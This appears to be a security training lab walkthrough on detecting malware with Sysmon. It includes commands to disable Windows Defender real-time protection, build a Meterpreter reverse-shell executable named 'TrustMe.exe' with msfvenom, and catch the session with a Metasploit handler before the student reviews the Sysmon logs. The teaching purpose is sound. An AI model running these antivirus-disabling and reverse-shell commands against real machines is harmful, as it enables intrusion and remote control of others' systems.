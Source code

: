 # Sysmon

Let’s disable **Defender**. Simply run the following from an **Administrator PowerShell** prompt:

![](attachments/OpeningPowershell.png)

```Set-MpPreference -DisableRealtimeMonitoring $true```

This will disable **Defender** for this session.

If you get angry red errors, that is Ok, it means **Defender** is not running.

Let’s start up the **ADHD Linux system** and set up our **malware** and **C2 listener**: 

Let's get started by opening a **Kali** terminal

![](attachments/OpeningKaliInstance.png)

Alternatively, you can click on the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Once the terminal opens, please run the following command:

```ifconfig```

![](attachments/ifconfig.png)

Please note the IP address of **your** Ethernet adapter.  

**Your IP Address and adapter name may be different.**

Now, run the following commands to start a simple backdoor and backdoor listener: 
 
 ```sudo su -```

```msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=[YOUR LINUX IP] lport=4444 -f exe -o /mnt/windows-share/TrustMe.exe```

Now, let's start the **Metasploit** Handler.  First, open a new **Kali** terminal by clicking the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Let's become root.

```sudo su -```

Now let's start the **Metasploit** Handler

```msfconsole -q```

We are going to run the following commands to correctly set the parameters:

```use exploit/multi/handler```

```set PAYLOAD windows/meterpreter/reverse_tcp```

```set LHOST 10.10.1.117```

Remember, **your IP will be different!**

```exploit```

It should look like this:

![](attachments/msfconsole.png)

Now, we will need to open an **cmd.exe terminal as Administrator**.

![](attachments/OpeningWindowsCommandPrompt.png)

```cd \IntroLabs```

```Sysmon64.exe -accepteula -i sysmonconfig-export.xml```

It should look like this:

![](attachments/sysmonexe.png)

let's run the following commands to run the **"TrustMe.exe"** file.

```cd \```
 
Then run it with the following:

 ```TrustMe.exe```

Back at your Kali terminal, you should have a metasploit session!

![](attachments/meterpretersession.png)


Now, we need to view the Sysmon events for this malware:

Open **"Event Viewer"** by pressing the Windows key and searching for it.

![](attachments/eventviewer.png)

You will select Event Viewer > Applications and Services Logs > Microsoft > Windows > Sysmon > Operational

![](attachments/eventviewernav1.png)

You'll have to scroll down a bit until you find the **Sysmon** folder.  

![](attachments/eventviwernav2.png)

Start at the top and work down through the logs, you should see your **malware** executing.  Please note your paths may be different.

![](attachments/logs.png)

![](attachments/processcreateview.png)
